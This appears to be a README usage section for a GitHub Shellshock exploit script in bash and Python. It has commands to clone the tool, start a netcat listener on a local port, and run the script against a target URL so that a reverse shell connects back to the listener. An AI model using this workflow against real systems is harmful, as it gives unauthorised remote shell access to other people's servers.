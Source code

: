 
## How to use

#### Clone the repository (or just copy-paste the one you prefer)
```bash
  sudo git clone https://github.com/Gurguii/shellshock.sh
```
#### Start listening with netcat  
```bash
  netcat -lvnp <lport>
```
#### Run the script
- Bash
```bash
    bash shellshock.sh -u <url> -h <lhost> -p <lport>
```
- Python
```bash
    python3 shellshock.py -u <url> -lh <lhost> -lp <lport>
```  
Note: default LPORT is 4444, URL and LHOST required.
